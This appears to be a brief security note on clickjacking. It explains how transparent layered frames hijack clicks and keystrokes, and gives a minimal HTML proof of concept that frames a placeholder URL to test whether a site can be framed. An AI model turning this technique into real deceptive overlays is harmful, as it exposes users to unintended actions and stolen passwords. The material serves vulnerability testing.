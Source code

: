 ## Click Jacking Vulnerability

Clickjacking, also known as a “UI redress attack”, is when an attacker uses multiple transparent or opaque layers to trick a user into clicking on a button or link on another page when they were intending to click on the top level page. Thus, the attacker is “hijacking” clicks meant for their page and routing them to another page, most likely owned by another application, domain, or both.

Using a similar technique, keystrokes can also be hijacked. With a carefully crafted combination of stylesheets, iframes, and text boxes, a user can be led to believe they are typing in the password to their email or bank account, but are instead typing into an invisible frame controlled by the attacker.


- ==POC==

```html
<pre lang="JavaScript" line="1">

<html>

<head>

<title>ClickJacking PoC</title>

</head>

ClickJacking PoC

<h2>Your Web Application Can be Mounted within an iFrame which makes it vulnerable to ClickJacking!</h2>

<iframe src="https://ADDURLHERE/" height="450" width="1000"></iframe>

</body>

</html>

</pre>
```

